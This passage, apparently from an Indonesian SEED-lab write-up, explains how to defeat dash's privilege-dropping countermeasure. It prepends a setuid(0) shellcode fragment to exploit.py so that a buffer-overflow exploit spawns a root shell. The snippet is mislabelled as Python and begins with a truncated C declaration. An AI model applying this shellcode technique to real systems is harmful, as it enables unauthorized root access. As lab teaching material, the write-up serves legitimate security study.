 Tapi ketika kita setuid(0) kita aktifkan maka akan mendapat user seed:
![](img/t51.png)

Nah kita perlu memodifikasi shellcode agar kita bisa mendapatkan akses root, pada file exploit.py kita tambahkan shellcode berikut pada line diatasnya

```python
har shellcode[] =
"\x31\xc0" /* Line 1: xorl %eax,%eax */
"\x31\xdb" /* Line 2: xorl %ebx,%ebx */
"\xb0\xd5" /* Line 3: movb $0xd5,%al */
"\xcd\x80" /* Line 4: int $0x80 */
```

akan mendapatkan root :
![](img/t52.png)

jika program diatas dijalankan pada program yang ada countermeasure dash nya maka kita yang semestinya akan mendapat shell user akan mendapat shell root.
